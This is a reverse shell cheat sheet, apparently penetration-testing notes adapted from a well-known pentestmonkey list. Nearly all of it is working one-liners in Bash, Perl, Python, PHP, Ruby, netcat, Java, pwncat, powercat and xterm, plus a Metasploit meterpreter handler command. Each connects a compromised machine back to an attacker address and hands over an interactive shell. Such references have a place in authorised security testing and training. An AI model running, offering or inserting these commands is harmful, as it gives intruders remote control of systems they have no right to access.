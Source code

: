 
## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]
- [[#Pwncat]]
- [[#msfconsole]]
- [[#Powercat]]


### [[Bash]]

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### [[Pwncat]]

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```



### msfconsole
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 9009; exploit"
```

### [[Powercat]]
**Listener + client**

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000

```



### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip